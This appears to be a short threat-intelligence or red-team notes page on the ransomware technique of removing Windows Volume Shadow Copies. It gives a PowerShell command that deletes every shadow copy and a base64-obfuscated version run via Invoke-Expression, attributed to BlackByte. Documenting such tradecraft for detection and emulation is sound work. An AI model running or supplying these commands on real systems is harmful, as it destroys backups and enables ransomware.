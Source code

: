 # Impact



### Remove Volume Shadow Copies

{% code overflow="wrap" %}
```
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
{% endcode %}

The threat actor TTP is associated with BlackByte and executes the above as base64.

```powershell
powershell.exe $x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RwBlA HQALQBXAG0AaQBPAGIAagBlAGMAdAAg'+'AFcAaQBuADMAMgBfAFMAaABhAGQAb wB3AGMAbwBwAHkAIAB8AC'+'AARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0A CAAewAkA'+'F8ALgBEAGUAbABlAHQAZQAoACkAOwB9AA=='));Invoke-Expression $x
```

